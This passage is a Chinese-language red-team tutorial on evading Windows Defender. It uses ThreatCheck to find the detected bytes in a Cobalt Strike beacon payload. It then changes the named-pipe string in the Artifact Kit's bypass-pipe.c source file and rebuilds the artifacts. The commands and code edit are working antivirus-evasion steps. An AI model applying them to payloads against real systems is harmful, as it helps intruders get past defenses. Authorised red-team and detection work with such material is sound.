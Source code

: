 ```

[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck)是Matterpreter 的 DefenderCheck的修改版本。在这里用于扫描作为payload的二进制文件的阳性检测。

例子：
```
C:\>C:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\beacon-smb-svc.exe
[+] Target file size: 289280 bytes
[+] Analyzing...

[...snip...]

[!] Identified end of bad bytes at offset 0x44E70
00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   5F 73 65 74 5F 69 6E 76  61 6C 69 64 5F 70 61 72   _set_invalid_par
000000A0   61 6D 65 74 65 72 5F 68  61 6E 64 6C 65 72 00 00   ameter_handler··
000000B0   77 69 6E 64 69 72 00 25  73 5C 53 79 73 74 65 6D   windir·%s\System
000000C0   33 32 5C 25 73 00 72 75  6E 64 6C 6C 33 32 2E 65   32\%s·rundll32.e
000000D0   78 65 00 00 00 00 00 00  00 00 00 00 00 00 00 00   xe··············
000000E0   25 63 25 63 25 63 25 63  25 63 25 63 25 63 25 63   %c%c%c%c%c%c%c%c
000000F0   25 63 4D 53 53 45 2D 25  64 2D 73 65 72 76 65 72   %cMSSE-%d-server

[*] Run time: 8.91s
```

```%c%c%c%c%c%c%c%c%cMSSE-%d-server```这行代码引起了报警。

搜索MSSE在套件中出现的位置，我们发现它位于```bypass-pipe.c```

出问题的貌似是这行代码
```
root@kali:/opt/cobaltstrike/artifact-kit# grep -r MSSE
src-common/bypass-pipe.c:       sprintf(pipename, "%c%c%c%c%c%c%c%c%cMSSE-%d-server", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));
```

上面工具的逻辑是：创建一个命名管道，通过该dist-pipe管道读取 shellcode，然后执行它

管道的名称看起来是随机生成的，看起来像```\\.\pipe\MSSE-1866-server```,怀疑是这个随机的名称触发了报警

修改为以下代码,将字符串MSSE和server更改为不同的内容
```
sprintf(pipename, "%c%c%c%c%c%c%c%c%cRasta-%d-pipe", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));
```

运行build.sh脚本重新构建程序
```
root@kali:/opt/cobaltstrike/artifact-kit# ./build.sh
```

在该```dist-pipe```目录中,artifacts新建了一个新的列表，包括一个```artifact.cna```文件，这个CNA文件会告诉Cobalt Strike使用这个artifacts列表里的文件，不要使用默认文件。

```
root@kali:/opt/cobaltstrike/artifact-kit# ls -l dist-pipe/
total 2108